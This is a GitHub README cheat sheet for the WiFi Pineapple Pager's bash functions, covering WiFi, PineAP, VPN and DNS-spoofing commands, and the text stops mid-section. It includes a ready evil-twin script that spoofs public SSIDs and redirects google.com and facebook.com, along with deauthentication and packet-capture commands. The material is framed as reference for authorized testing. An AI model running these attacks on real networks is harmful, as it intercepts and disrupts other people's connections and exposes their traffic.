




# 🍍 WiFi Pineapple Pager - Bash Functions Cheat Sheet

<div align="center">
**License:** [MIT](https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet/blob/main/LICENSE)


[](https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet/blob/main/LICENSE)

**Complete interactive reference guide for all bash functions available on the WiFi Pineapple Pager**

[🚀 Quick Start](#-quick-start) • [📊 Diagrams](#-visual-diagrams) • [📚 Functions](#-function-reference) • [💡 Examples](#-common-workflows)

[](https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet)
[](https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet)
[](https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet/issues)
[](https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet/blob/main/LICENSE)

</div>

---

## 📑 Table of Contents

<details>
<summary><b>Click to expand full table of contents</b></summary>

- [🎯 Overview](#-overview)
- [📊 Visual Diagrams](#-visual-diagrams)
  - [System Architecture](#system-architecture)
  - [WiFi Attack Workflow](#wifi-attack-workflow)
  - [Network Setup Flow](#network-setup-flow)
  - [Payload Execution Flow](#payload-execution-flow)
- [🚀 Quick Start](#-quick-start)
- [📋 Quick Reference Table](#-quick-reference-table)
- [📚 Function Reference](#-function-reference)
  - [🎨 User Interface & Interaction](#-user-interface--interaction)
  - [📡 WiFi Operations](#-wifi-operations)
  - [🍍 PineAP Operations](#-pineap-operations)
  - [🌐 Network & VPN](#-network--vpn)
  - [📍 GPS Operations](#-gps-operations)
  - [⚙️ System Operations](#️-system-operations)
  - [💡 LED & Display](#-led--display)
  - [📝 Logging & Data Collection](#-logging--data-collection)
  - [🎯 Payload Configuration](#-payload-configuration)
  - [💾 USB Operations](#-usb-operations)
- [💡 Common Workflows](#-common-workflows)
- [🔧 Developer Functions](#-developer-functions)
- [⚖️ Legal & Terms](#️-legal--terms)
- [📋 Changelog](#-changelog)
- [📚 Resources](#-resources)

</details>

---

## 🎯 Overview

<div align="center">

**The WiFi Pineapple Pager** is a powerful penetration testing and WiFi security research device that enables authorized security professionals to test network security, perform reconnaissance, and conduct security assessments.

**📝 Author:** [TheCyberJest0r](https://github.com/TheCyberJest0r)  
**🔗 Repository:** [Wifi-Pineapple-Pager-Payloads-Cheat-sheet](https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet)

</div>

### ✨ Key Features

<table>
<tr>
<td width="50%">

**🔐 Security Testing**
- WiFi client/AP operations
- PineAP attack framework
- MAC/SSID filtering
- Deauthentication attacks

</td>
<td width="50%">

**🌐 Network Services**
- OpenVPN/WireGuard VPN
- AutoSSH port forwarding
- DNS spoofing
- Network reconnaissance

</td>
</tr>
<tr>
<td width="50%">

**📍 Location Tracking**
- GPS integration
- Wigle.net uploads
- Location logging

</td>
<td width="50%">

**🎨 User Interface**
- Interactive dialogs
- LED control
- Vibration feedback
- Progress indicators

</td>
</tr>
</table>

> **⚠️ Legal Notice**: Use of these functions in a setup script indicates your acceptance of the Hak5 Software License Agreement and Terms of Service. Always ensure you have proper authorization before using these tools.

---

## 📊 Visual Diagrams

### System Architecture



### WiFi Attack Workflow



### Network Setup Flow



### Payload Execution Flow



---

## 🚀 Quick Start

### 🎯 5-Minute Setup

<details>
<summary><b>📝 Step-by-Step Initial Setup</b></summary>

#### Step 1: Accept Legal Terms

```bash
# Accept Software License Agreement
SLA_ACCEPT --i-accept

# Accept Terms of Service  
TOS_ACCEPT --i-accept
```

#### Step 2: Connect to WiFi (Optional)

```bash
# Connect to a WiFi network
WIFI_CONNECT wlan0cli "MyNetwork" psk2 "password123"

# Wait for connection (30 seconds timeout)
WIFI_WAIT wlan0cli 30
```

#### Step 3: Set Admin Password

```bash
# Set device password
PASSWORD "YourSecurePassword123"
```

#### Step 4: Test LED

```bash
# Test LED functionality
LED blue solid
DPADLED green
```

</details>

### 🎨 Interactive Examples

<details>
<summary><b>🔐 Create Evil Twin AP</b></summary>

```bash
#!/bin/bash
# Author: TheCyberJest0r
# Repository: https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet

# Accept terms
SLA_ACCEPT --i-accept
TOS_ACCEPT --i-accept

# Show alert
ALERT "Starting Evil Twin Attack"

# Add target SSID to pool
PINEAPPLE_SSID_POOL_ADD "FreeWiFi"
PINEAPPLE_SSID_POOL_ADD "Starbucks_WiFi"

# Start advertising
PINEAPPLE_SSID_POOL_START

# Wait for client
ALERT "Waiting for client connection..."

# When client connects, enable DNS spoofing
DNSSPOOF_ADD_HOST A "google.com" "192.168.1.100"
DNSSPOOF_ENABLE

# Start packet capture
WIFI_PCAP_START

ALERT "Client connected!"  # Obeys system ringtone preferences
```

</details>

<details>
<summary><b>🌐 Setup VPN Connection</b></summary>

```bash
#!/bin/bash
# Author: TheCyberJest0r
# Repository: https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet

# Configure OpenVPN
OPENVPN_CONFIGURE enable /root/config.ovpn
OPENVPN_ENABLE

# Or configure WireGuard
WIREGUARD_CONFIGURE enable /root/wg.conf
WIREGUARD_ENABLE

# Test connection
ALERT "VPN Connection Established"
```

</details>

<details>
<summary><b>📍 GPS Tracking with Wigle</b></summary>

```bash
#!/bin/bash
# Author: TheCyberJest0r
# Repository: https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet

# Configure GPS
GPS_CONFIGURE /dev/ttyUSB0 9600

# Login to Wigle
WIGLE_LOGIN "username" "password"

# Start GPS tracking
GPS_GET
WIGLE_START

# Log location
LOG "GPS Tracking Started"

# Later: Upload data
WIGLE_UPLOAD --archive
```

</details>

---

## 📋 Quick Reference Table

<table>
<thead>
<tr>
<th>Category</th>
<th>Function</th>
<th>Purpose</th>
<th>Common Use</th>
</tr>
</thead>
<tbody>
<tr>
<td rowspan="3">🎨 UI</td>
<td><code>ALERT</code></td>
<td>Show alert</td>
<td>Notifications</td>
</tr>
<tr>
<td><code>PROMPT</code></td>
<td>Wait for user</td>
<td>User interaction</td>
</tr>
<tr>
<td><code>IP_PICKER</code></td>
<td>Get IP input</td>
<td>User input</td>
</tr>
<tr>
<td rowspan="4">📡 WiFi</td>
<td><code>WIFI_CONNECT</code></td>
<td>Connect to AP</td>
<td>Network access</td>
</tr>
<tr>
<td><code>WIFI_OPEN_AP</code></td>
<td>Create open AP</td>
<td>Evil twin</td>
</tr>
<tr>
<td><code>WIFI_WPA_AP</code></td>
<td>Create WPA AP</td>
<td>Secure AP</td>
</tr>
<tr>
<td><code>WIFI_PCAP_START</code></td>
<td>Start capture</td>
<td>Traffic analysis</td>
</tr>
<tr>
<td rowspan="4">🍍 PineAP</td>
<td><code>PINEAPPLE_SSID_POOL_ADD</code></td>
<td>Add SSID</td>
<td>SSID pool</td>
</tr>
<tr>
<td><code>PINEAPPLE_SSID_POOL_START</code></td>
<td>Start advertising</td>
<td>Attack start</td>
</tr>
<tr>
<td><code>PINEAPPLE_DEAUTH_CLIENT</code></td>
<td>Deauth client</td>
<td>Force disconnect</td>
</tr>
<tr>
<td><code>PINEAPPLE_RECON_NEW</code></td>
<td>Start recon</td>
<td>Reconnaissance</td>
</tr>
<tr>
<td rowspan="3">🌐 Network</td>
<td><code>OPENVPN_ENABLE</code></td>
<td>Enable OpenVPN</td>
<td>VPN access</td>
</tr>
<tr>
<td><code>DNSSPOOF_ADD_HOST</code></td>
<td>DNS redirect</td>
<td>Traffic redirect</td>
</tr>
<tr>
<td><code>AUTOSSH_ENABLE</code></td>
<td>SSH tunnel</td>
<td>Remote access</td>
</tr>
<tr>
<td rowspan="2">📍 GPS</td>
<td><code>GPS_CONFIGURE</code></td>
<td>Setup GPS</td>
<td>Location tracking</td>
</tr>
<tr>
<td><code>WIGLE_START</code></td>
<td>Start Wigle</td>
<td>Location logging</td>
</tr>
</tbody>
</table>

---

## 📚 Function Reference

## 🎨 User Interface & Interaction

### Alerts and Dialogs

<details>
<summary><b>🔔 ALERT - Raise a modal alert</b></summary>

**Syntax:**
```bash
ALERT [MESSAGE]
```

**Example:**
```bash
ALERT "Connection established!"
ALERT "Attack started successfully"
```

**Use Cases:**
- Notify user of status changes
- Display important information
- Confirm actions

</details>

> **Note (firmware 1.0.6+):** All alerts now obey system ringtone preferences. The `ALERT_RINGTONE` command has been removed.

<details>
<summary><b>⏸️ PROMPT - Wait for user dismissal</b></summary>

**Syntax:**
```bash
PROMPT [MESSAGE]
```

**Example:**
```bash
PROMPT "Press OK to continue"
```

**Difference from ALERT:**
- `ALERT` - Non-blocking
- `PROMPT` - Blocks execution until dismissed

</details>

<details>
<summary><b>❌ ERROR_DIALOG - Show error</b></summary>

**Syntax:**
```bash
ERROR_DIALOG [text]
```

**Example:**
```bash
ERROR_DIALOG "Connection failed!"
```

</details>

<details>
<summary><b>✅ CONFIRMATION_DIALOG - Get user confirmation</b></summary>

**Syntax:**
```bash
CONFIRMATION_DIALOG [text]
```

**Example:**
```bash
if CONFIRMATION_DIALOG "Start attack?"; then
    PINEAPPLE_SSID_POOL_START
fi
```

</details>

### Input Pickers

<details>
<summary><b>🌐 IP_PICKER - Get IP address input</b></summary>

**Syntax:**
```bash
IP_PICKER [title] [default IP]
```

**Example:**
```bash
TARGET_IP=$(IP_PICKER "Enter Target IP" "192.168.1.1")
echo "Target: $TARGET_IP"
```

</details>

<details>
<summary><b>📱 MAC_PICKER - Get MAC address input</b></summary>

**Syntax:**
```bash
MAC_PICKER [title] [default mac]
```

**Example:**
```bash
TARGET_MAC=$(MAC_PICKER "Enter Target MAC" "aa:bb:cc:dd:ee:ff")
PINEAPPLE_DEAUTH_CLIENT "00:11:22:33:44:55" "$TARGET_MAC" 6
```

</details>

<details>
<summary><b>🔢 NUMBER_PICKER - Get number input</b></summary>

**Syntax:**
```bash
NUMBER_PICKER [title] [default number]
```

**Example:**
```bash
TIMEOUT=$(NUMBER_PICKER "Timeout (seconds)" "30")
WIFI_WAIT wlan0cli $TIMEOUT
```

</details>

<details>
<summary><b>📝 TEXT_PICKER - Get text input</b></summary>

**Syntax:**
```bash
TEXT_PICKER [title] [default text]
```

**Example:**
```bash
SSID=$(TEXT_PICKER "Enter SSID" "FreeWiFi")
PINEAPPLE_SSID_POOL_ADD "$SSID"
```

</details>

### Button Input

<details>
<summary><b>🔘 WAIT_FOR_BUTTON_PRESS - Wait for button</b></summary>

**Syntax:**
```bash
WAIT_FOR_BUTTON_PRESS {button}
```

**Returns:** Name of button pressed

**Example:**
```bash
BUTTON=$(WAIT_FOR_BUTTON_PRESS)
if [ "$BUTTON" = "UP" ]; then
    ALERT "Up button pressed"
fi
```

</details>

<details>
<summary><b>⌨️ WAIT_FOR_INPUT - Wait for any input</b></summary>

**Syntax:**
```bash
WAIT_FOR_INPUT
```

**Example:**
```bash
ALERT "Press any button to continue"
WAIT_FOR_INPUT
```

</details>

### Progress Indicators

<details>
<summary><b>⏳ START_SPINNER - Show progress</b></summary>

**Syntax:**
```bash
START_SPINNER [text]
```

**Returns:** Spinner ID

**Example:**
```bash
SPINNER=$(START_SPINNER "Connecting to WiFi...")
WIFI_CONNECT wlan0cli "Network" psk2 "pass"
WIFI_WAIT wlan0cli 30
STOP_SPINNER $SPINNER
ALERT "Connected!"
```

</details>

<details>
<summary><b>⏹️ STOP_SPINNER - Hide progress</b></summary>

**Syntax:**
```bash
STOP_SPINNER [id]
```

</details>

### Audio & Vibration

<details>
<summary><b>🔔 RINGTONE - Play ringtone</b></summary>

**Syntax:**
```bash
RINGTONE {--vibrate} [rtttl | name]
```

**Example:**
```bash
RINGTONE --vibrate "alert"
RINGTONE "d:d=4,o=5,b=200:c,c,c"
```

</details>

<details>
<summary><b>📳 VIBRATE - Activate vibration</b></summary>

**Syntax:**
```bash
VIBRATE [rtttl | name]
```

**Example:**
```bash
VIBRATE "pattern1"
```

</details>

---

## 📡 WiFi Operations

### Client Mode

<details>
<summary><b>🔌 WIFI_CONNECT - Connect to WiFi network</b></summary>

**Syntax:**
```bash
WIFI_CONNECT [interface] [ssid] [encryption] {key} {bssid}
```

**Parameters:**
- `interface` - Typically `wlan0cli`
- `ssid` - Network name
- `encryption` - `open`, `psk`, `psk2`, `sae`
- `key` - Password or `NONE`
- `bssid` - Specific BSSID or `ANY`

**Examples:**
```bash
# Open network
WIFI_CONNECT wlan0cli "FreeWiFi" open NONE ANY

# WPA2 network
WIFI_CONNECT wlan0cli "MyNetwork" psk2 "password123" ANY

# WPA3 network
WIFI_CONNECT wlan0cli "SecureNet" sae "securepass" ANY
```

</details>

<details>
<summary><b>🔌 WIFI_DISCONNECT - Disconnect from network</b></summary>

**Syntax:**
```bash
WIFI_DISCONNECT [interface]
```

</details>

<details>
<summary><b>🧹 WIFI_CLEAR - Clear WiFi config</b></summary>

**Syntax:**
```bash
WIFI_CLEAR [interface]
```

</details>

<details>
<summary><b>⏱️ WIFI_WAIT - Wait for connection</b></summary>

**Syntax:**
```bash
WIFI_WAIT [interface] [count]
```

**Example:**
```bash
WIFI_CONNECT wlan0cli "Network" psk2 "pass"
WIFI_WAIT wlan0cli 30  # Wait up to 30 seconds
```

</details>

### Access Point Configuration

<details>
<summary><b>📡 WIFI_OPEN_AP - Create open access point</b></summary>

**Syntax:**
```bash
WIFI_OPEN_AP [interface] [ssid] {bssid}
```

**Example:**
```bash
WIFI_OPEN_AP wlan0open "FreeWiFi"
WIFI_OPEN_AP wlan0open "PublicWiFi" "00:11:22:33:44:55"
```

**Common Use:** Evil twin attacks, captive portals

</details>

<details>
<summary><b>🔒 WIFI_WPA_AP - Create WPA protected AP</b></summary>

**Syntax:**
```bash
WIFI_WPA_AP [interface] [ssid] [encryption] [key] {bssid}
```

**Encryption Options:**
- `psk` - WPA PSK
- `psk2` - WPA2 PSK
- `sae-mixed` - WPA2/WPA3 mixed
- `sae` - WPA3 SAE

**Example:**
```bash
WIFI_WPA_AP wlan0wpa "SecureAP" psk2 "SecurePassword123"
```

</details>

<details>
<summary><b>🛡️ WIFI_MGMT_AP - Create management AP</b></summary>

**Syntax:**
```bash
WIFI_MGMT_AP [interface] [ssid] [encryption] [key] {bssid}
```

**Example:**
```bash
WIFI_MGMT_AP wlan0mgmt "Management" sae "AdminPass123"
```

</details>

<details>
<summary><b>👁️ WIFI_*_AP_HIDE - Hide SSID</b></summary>

**Syntax:**
```bash
WIFI_OPEN_AP_HIDE [interface]
WIFI_WPA_AP_HIDE [interface]
WIFI_MGMT_AP_HIDE [interface]
```

> **Note:** Hidden SSIDs can still be discovered. This is not a security feature.

</details>

### Packet Capture

<details>
<summary><b>📦 WIFI_PCAP_START - Start packet capture</b></summary>

**Syntax:**
```bash
WIFI_PCAP_START
```

**Example:**
```bash
WIFI_PCAP_START
LOG "Packet capture started"
# ... do work ...
WIFI_PCAP_STOP
```

</details>

<details>
<summary><b>⏹️ WIFI_PCAP_STOP - Stop packet capture</b></summary>

**Syntax:**
```bash
WIFI_PCAP_STOP
```

</details>

---

## 🍍 PineAP Operations

### SSID Pool Management

<details>
<summary><b>➕ PINEAPPLE_SSID_POOL_ADD - Add SSID to pool</b></summary>

**Syntax:**
```bash
PINEAPPLE_SSID_POOL_ADD [ssid]
```

**Example:**
```bash
PINEAPPLE_SSID_POOL_ADD "FreeWiFi"
PINEAPPLE_SSID_POOL_ADD "Starbucks_WiFi"
PINEAPPLE_SSID_POOL_ADD "attwifi"
```

</details>

<details>
<summary><b>➕ PINEAPPLE_SSID_POOL_ADD_FILE - Add SSIDs from file</b></summary>

**Syntax:**
```bash
PINEAPPLE_SSID_POOL_ADD_FILE [/path/to/file]
```

**Example:**
```bash
PINEAPPLE_SSID_POOL_ADD_FILE /root/ssids.txt
```

**Added in firmware 1.0.6**

</details>

<details>
<summary><b>▶️ PINEAPPLE_SSID_POOL_START - Start advertising</b></summary>

**Syntax:**
```bash
PINEAPPLE_SSID_POOL_START {random}
```

**Parameters:**
- `random` - Optional. Use random BSSIDs when set (default: false)

**Example:**
```bash
PINEAPPLE_SSID_POOL_START
# Or with random BSSIDs
PINEAPPLE_SSID_POOL_START random
```

</details>

<details>
<summary><b>⏸️ PINEAPPLE_SSID_POOL_STOP - Stop advertising</b></summary>

**Syntax:**
```bash
PINEAPPLE_SSID_POOL_STOP
```

</details>

<details>
<summary><b>📋 PINEAPPLE_SSID_POOL_LIST - List SSIDs</b></summary>

**Syntax:**
```bash
PINEAPPLE_SSID_POOL_LIST
```

</details>

<details>
<summary><b>🗑️ PINEAPPLE_SSID_POOL_DELETE - Remove SSID</b></summary>

**Syntax:**
```bash
PINEAPPLE_SSID_POOL_DELETE [ssid]
```

</details>

<details>
<summary><b>🧹 PINEAPPLE_SSID_POOL_CLEAR - Clear all SSIDs</b></summary>

**Syntax:**
```bash
PINEAPPLE_SSID_POOL_CLEAR
```

</details>

<details>
<summary><b>📡 PINEAPPLE_SSID_POOL_COLLECT_START - Collect probe requests</b></summary>

**Syntax:**
```bash
PINEAPPLE_SSID_POOL_COLLECT_START
```

**Use Case:** Automatically collect SSIDs from probe requests

</details>

<details>
<summary><b>🎭 PINEAPPLE_MIMIC_ENABLE - Enable mimic open networks</b></summary>

**Syntax:**
```bash
PINEAPPLE_MIMIC_ENABLE
```

**Added in firmware 1.0.6**

</details>

<details>
<summary><b>⏹️ PINEAPPLE_MIMIC_DISABLE - Disable mimic open networks</b></summary>

**Syntax:**
```bash
PINEAPPLE_MIMIC_DISABLE
```

**Added in firmware 1.0.6**

</details>

### Device Filtering (MAC)

<details>
<summary><b>🔐 PINEAPPLE_DEVICE_FILTER_MODE - Set filter mode</b></summary>

**Syntax:**
```bash
PINEAPPLE_DEVICE_FILTER_MODE [allow|deny]
```

**Modes:**
- `allow` - Only listed MACs can connect
- `deny` - Listed MACs cannot connect

**Example:**
```bash
PINEAPPLE_DEVICE_FILTER_MODE allow
PINEAPPLE_DEVICE_FILTER_ADD allow "aa:bb:cc:dd:ee:ff"
```

</details>

<details>
<summary><b>➕ PINEAPPLE_DEVICE_FILTER_ADD - Add MAC to filter</b></summary>

**Syntax:**
```bash
PINEAPPLE_DEVICE_FILTER_ADD [allow|deny] [mac]
```

</details>

<details>
<summary><b>➕ PINEAPPLE_DEVICE_FILTER_ADD_FILE - Add MACs from file</b></summary>

**Syntax:**
```bash
PINEAPPLE_DEVICE_FILTER_ADD_FILE [allow|deny] [/path/to/file]
```

**Added in firmware 1.0.6**

</details>

<details>
<summary><b>➖ PINEAPPLE_DEVICE_FILTER_DELETE - Remove MAC</b></summary>

**Syntax:**
```bash
PINEAPPLE_DEVICE_FILTER_DELETE [allow|deny] [mac]
```

</details>

<details>
<summary><b>📋 PINEAPPLE_DEVICE_FILTER_LIST - List filtered MACs</b></summary>

**Syntax:**
```bash
PINEAPPLE_DEVICE_FILTER_LIST [allow|deny]
```

</details>

### Network Filtering (SSID)

<details>
<summary><b>🔍 PINEAPPLE_NETWORK_FILTER_MODE - Set SSID filter mode</b></summary>

**Syntax:**
```bash
PINEAPPLE_NETWORK_FILTER_MODE [allow|deny]
```

</details>

<details>
<summary><b>➕ PINEAPPLE_NETWORK_FILTER_ADD - Add SSID to filter</b></summary>

**Syntax:**
```bash
PINEAPPLE_NETWORK_FILTER_ADD [allow|deny] [ssid]
```

</details>

<details>
<summary><b>➕ PINEAPPLE_NETWORK_FILTER_ADD_FILE - Add SSIDs from file</b></summary>

**Syntax:**
```bash
PINEAPPLE_NETWORK_FILTER_ADD_FILE [allow|deny] [/path/to/file]
```

**Added in firmware 1.0.6**

</details>

### Channel Operations

<details>
<summary><b>📡 PINEAPPLE_EXAMINE_CHANNEL - Lock to channel</b></summary>

**Syntax:**
```bash
PINEAPPLE_EXAMINE_CHANNEL [channel] {time}
```

**Example:**
```bash
PINEAPPLE_EXAMINE_CHANNEL 6 60  # Lock to channel 6 for 60 seconds
```

</details>

<details>
<summary><b>🎯 PINEAPPLE_EXAMINE_BSSID - Lock to BSSID channel</b></summary>

**Syntax:**
```bash
PINEAPPLE_EXAMINE_BSSID [bssid] {time}
```

</details>

<details>
<summary><b>🔄 PINEAPPLE_EXAMINE_RESET - Reset channel lock</b></summary>

**Syntax:**
```bash
PINEAPPLE_EXAMINE_RESET
```

</details>

<details>
<summary><b>🔄 PINEAPPLE_HOPPING_START - Start channel hopping</b></summary>

**Syntax:**
```bash
PINEAPPLE_HOPPING_START
```

**Added in firmware 1.0.7**

</details>

<details>
<summary><b>⏹️ PINEAPPLE_HOPPING_STOP - Stop channel hopping</b></summary>

**Syntax:**
```bash
PINEAPPLE_HOPPING_STOP
```

**Added in firmware 1.0.7**

</details>

<details>
<summary><b>📶 PINEAPPLE_SET_BANDS - Set monitoring bands</b></summary>

**Syntax:**
```bash
PINEAPPLE_SET_BANDS [interface] {2} {5} {6}
```

**Example:**
```bash
PINEAPPLE_SET_BANDS wlan1mon 2 5  # Monitor 2.4GHz and 5GHz
```

</details>

### Deauthentication

<details>
<summary><b>💥 PINEAPPLE_DEAUTH_CLIENT - Disconnect client</b></summary>

**Syntax:**
```bash
PINEAPPLE_DEAUTH_CLIENT [bssid] [target] [channel]
```

**Example:**
```bash
PINEAPPLE_DEAUTH_CLIENT "00:11:22:33:44:55" "aa:bb:cc:dd:ee:ff" 6
```

</details>

### Reconnaissance

<details>
<summary><b>🔍 PINEAPPLE_RECON_NEW - Start recon session</b></summary>

**Syntax:**
```bash
PINEAPPLE_RECON_NEW {name}
```

**Example:**
```bash
PINEAPPLE_RECON_NEW "CoffeeShop_Recon"
```

</details>

---

## 🌐 Network & VPN

### AutoSSH

<details>
<summary><b>🔐 AUTOSSH_CONFIGURE - Configure SSH tunnel</b></summary>

**Syntax:**
```bash
AUTOSSH disable
AUTOSSH enable [host] [port] [user] [remoteport] [localport]
```

**Example:**
```bash
AUTOSSH enable example.com 22 root 8080 80
```

</details>

<details>
<summary><b>▶️ AUTOSSH_ENABLE - Enable SSH tunnel</b></summary>

**Syntax:**
```bash
AUTOSSH_ENABLE
```

</details>

<details>
<summary><b>⏹️ AUTOSSH_DISABLE - Disable SSH tunnel</b></summary>

**Syntax:**
```bash
AUTOSSH_DISABLE
```

</details>

### OpenVPN

<details>
<summary><b>🔐 OPENVPN_CONFIGURE - Configure OpenVPN</b></summary>

**Syntax:**
```bash
OPENVPN_CONFIGURE disable
OPENVPN_CONFIGURE enable [config file]
```

**Example:**
```bash
OPENVPN_CONFIGURE enable /root/vpn.ovpn
OPENVPN_ENABLE
```

</details>

### WireGuard

<details>
<summary><b>🔐 WIREGUARD_CONFIGURE - Configure WireGuard</b></summary>

**Syntax:**
```bash
WIREGUARD_CONFIGURE disable
WIREGUARD_CONFIGURE enable [wg.conf]
# Or with parameters:
WIREGUARD_CONFIGURE enable [server-ip] [server-port] [server-pubkey] \
  [server-psk | NONE] [private-key | AUTO] [local-ip] \
  [ipv4-networks | NONE] [ipv6-networks | NONE]
```

</details>

### DNS Spoofing

<details>
<summary><b>🌐 DNSSPOOF_ADD_HOST - Add DNS override</b></summary>

**Syntax:**
```bash
DNSSPOOF_ADD_HOST A [hostname] [IPv4 address]
DNSSPOOF_ADD_HOST AAAA [hostname] [IPv6 address]
```

**Example:**
```bash
DNSSPOOF_ADD_HOST A "google.com" "192.168.1.100"
DNSSPOOF_ADD_HOST A "facebook.com" "192.168.1.100"
DNSSPOOF_ENABLE
```

</details>

<details>
<summary><b>▶️ DNSSPOOF_ENABLE - Enable DNS spoofing</b></summary>

**Syntax:**
```bash
DNSSPOOF_ENABLE
```

</details>

<details>
